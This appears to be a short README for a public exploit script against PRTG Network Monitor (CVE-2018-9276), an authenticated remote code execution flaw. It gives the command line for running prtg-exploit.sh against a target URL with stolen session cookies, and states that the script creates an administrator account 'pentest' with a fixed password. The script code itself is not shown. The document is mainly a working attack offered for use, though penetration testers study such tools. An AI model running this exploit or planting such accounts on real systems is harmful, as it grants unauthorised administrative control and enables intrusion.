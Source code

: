 # PRTG-Network-Monitor-RCE
## CVE-2018-9276

Authenticated RCE for PRTG Network Monitor < 18.2.39. 
Resource: https://www.codewatch.org/blog/?p=453

first login and get the authenticated cookie.
then
 ```~#./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" ```
 
 creates a new user pentest with password P3nT3st! and adds to administrators group. 
